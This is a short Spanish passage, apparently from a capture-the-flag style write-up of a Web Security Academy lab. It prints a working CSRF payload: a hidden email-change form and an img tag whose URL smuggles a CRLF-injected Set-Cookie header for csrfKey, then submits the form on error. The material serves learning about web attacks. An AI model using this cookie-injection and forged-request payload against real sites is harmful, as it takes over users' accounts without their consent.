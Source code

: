 <figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya hemos seteado una nueva cookie.

```
<form class="login-form" name="change-email-form" action="https://0a84007904ed8a5482329ceb005f00d4.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pepe@test.com">
    <input required="" type="hidden" name="csrf" value="y2RwTkKTYiI0d6AWTp2BuMVGZw8FPtnx">
</form>

<img src="https://0a84007904ed8a5482329ceb005f00d4.web-security-academy.net/search=prueba%0d%0aSet-Cookie:%20csrfKey=0s3QkhzdjMVzJXdwPWUSXhEq5tgPrvlH%3b%20SameSite=None" onerror="document.forms[0].submit();">
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
